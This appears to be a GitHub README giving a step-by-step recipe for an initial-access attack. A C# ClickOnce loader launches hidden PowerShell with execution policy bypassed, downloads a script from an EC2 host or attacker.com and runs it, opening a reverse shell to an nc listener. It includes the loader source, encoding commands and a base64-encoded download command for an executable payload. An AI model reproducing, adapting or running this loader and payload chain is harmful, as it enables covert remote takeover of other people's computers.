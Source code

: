 ## 1. Create lscript.application

1. Go to Visual Studio Community edition to create the loader.
2. Create a C# Console application for Windows
3. In lscript.cs, write the following code ->

```
using System.Diagnostics;

static class Program {
    [System.STAThread]
    static void Main() {
        string encoded = "<Base64_Download_Command>";
        string psArgs = $"-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass -EncodedCommand {encoded}";
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,
            UseShellExecute = false
        };
        Process.Start(psi);
    }
}
```

4. Change the Uri to the EC2 instance with the **perfect.ps1** script. Run the below command in Mac/Linux,

```
echo "Invoke-WebRequest -Uri 'http://ec2-3-253-172-6.eu-west-1.compute.amazonaws.com:80/perfect.ps1' -OutFile 'perfect.ps1'; powershell -ExecutionPolicy Bypass -File 'perfect.ps1'" | iconv -t UTF-16LE | base64 -w 0
```
5. Replace the above Base64 output to <Base64_Download_Command> on the lscript.cs file.
6. You have to host the perfect.ps1, go to https://www.revshells.com, change the reverse shell IP to the public IP and port as 9999.
7. Create a Powershell base64 payload, copy and save it in the EC2 instance.
8. Open port 9999 from the security group for the public IP.

## 2. Publishing the exploit

1. Go to Visual Studio on the Windows machine.
2. Right click, choose **Properties**, then **Security**, Enable **ClickOnce Security Settings, This is a full trust application**.
3. This application is available offline and startable from Start Menu, click **Publish**.

## 3. Exploitation

1. Run **sudo python -m http.server 9999**
2. Go to your EC2 Instance, make sure there is an inbound rule entry in the security groups for port 9999 for only the public IP of the target device that will be used.
3. Start the listener with ```nc -lnvp 9999```
4. Execute the _lscript.application_ file on the target device.
5. Check the listener.


```
# Unencoded lscript.cs file

using System.Diagnostics;

static class Program {
    [System.STAThread] // (Use STA if a GUI/WinForms app; not needed for pure console)
    static void Main() {
        // Prepare PowerShell command (e.g., reverse shell or arbitrary script)
        string psArgs = "-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass "
                      + "-Command \"Invoke-WebRequest -Uri 'http://attacker.com/payload.ps1' -OutFile 'payload.ps1'; "
                      + "powershell -ExecutionPolicy Bypass -File 'payload.ps1'\"";
        // Configure process start info to launch PowerShell
        ProcessStartInfo psi = new ProcessStartInfo("powershell.exe", psArgs) {
            CreateNoWindow = true,   // no new window for PowerShell
            UseShellExecute = false  // required for CreateNoWindow
        };
        Process.Start(psi);
    }
}
```
```
ZWNobyAiSW52b2tlLVdlYlJlcXVlc3QgLVVyaSAnaHR0cHM6Ly9lYzItNTQtMjQ2LTIzNS03NC5ldS13ZXN0LTEuY29tcHV0ZS5hbWF6b25hd3MuY29tOjgwL3J1c3QtcGF5bG9hZC5leGUnIC1PdXRGaWxlICdydXN0LXBheWxvYWQuZXhlJzsiIHwgaWNvbnYgLXQgVVRGLTE2TEUgfCBiYXNlNjQgLXcgMA==
```
